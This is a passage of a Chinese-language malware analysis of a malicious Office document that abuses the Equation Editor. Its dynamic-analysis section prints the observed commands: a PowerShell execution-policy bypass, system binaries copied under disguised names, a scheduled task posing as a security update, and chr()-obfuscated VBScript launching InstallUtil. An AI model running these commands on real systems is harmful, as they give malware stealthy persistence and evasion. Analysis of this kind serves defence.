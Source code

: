 中间对象是一个windows公式对象，如下图所示:

[![](https://p2.ssl.qhimg.com/t01422992b3beeeae63.png)](https://p2.ssl.qhimg.com/t01422992b3beeeae63.png)

### 3、图片

最右边的显示“0”的其实是一个图片，如下图所示：

[![](https://p3.ssl.qhimg.com/t011358f9f1b9280646.png)](https://p3.ssl.qhimg.com/t011358f9f1b9280646.png)

### 4、RTFOBJ分析

利用RTFOBJ工具分析RTF文件，发现无法顺利解析该格式，显然作者经过了特殊处理，结果如下图：

[![](https://p4.ssl.qhimg.com/t013a5fa355937a734b.png)](https://p4.ssl.qhimg.com/t013a5fa355937a734b.png)



## 二、动态分析

利用Process Monitor监控doc文档打开的动作，如下图所示：

[![](https://p2.ssl.qhimg.com/t01b0d9639760b47934.png)](https://p2.ssl.qhimg.com/t01b0d9639760b47934.png)

具体如下：

1、DOC文档打开后，winword.exe调用EQNEDT32.EXE执行。

2、EQNEDT32.EXE调用运行cmd.exe，具体为: cmd.exe /c %windir%\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File X7jnZ.ps1。

3、Powershell.exe执行后，复制InstallUtil.exe和wscript.exe两个文件到临时目录下，并分别保存为mscorsw.exe和winwsh.exe。

```
"C:\Windows\system32\cmd.exe"  /c copy /y C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe C:\Users\admin\AppData\Local\Temp\mscorsw.exe

"C:\Windows\system32\cmd.exe"  /c copy /y C:\Windows\system32\wscript.exe C:\Users\admin\AppData\Local\Temp\winwsh.exe
```

4、Powershell.exe创建任务，任务如下：

```
C:\Windows\system32\schtasks.exe"  /create /sc minute /mo 3 /tn "Security Script kb00588535" /tr "C:\Users\admin\AppData\Local\Temp\winwsh.exe //Nologo //E:vbscript //B C:\Users\admin\AppData\Local\Temp\Win836896.txt" /F

CreateObject(chr(87)&amp;chr(115)&amp;chr(99)&amp;chr(114)&amp;chr(105)&amp;chr(112)&amp;chr(116)&amp;chr(46)&amp;chr(83)&amp;chr(104)&amp;chr(101)&amp;chr(108)&amp;chr(108)).Run """C:\Users\admin\AppData\Local\Temp\mscorsw.exe"" /logfile= /u /LogToConsole=false ""C:\Users\admin\AppData\Local\Temp\tmp_Kquxaf.dat""", 0
```
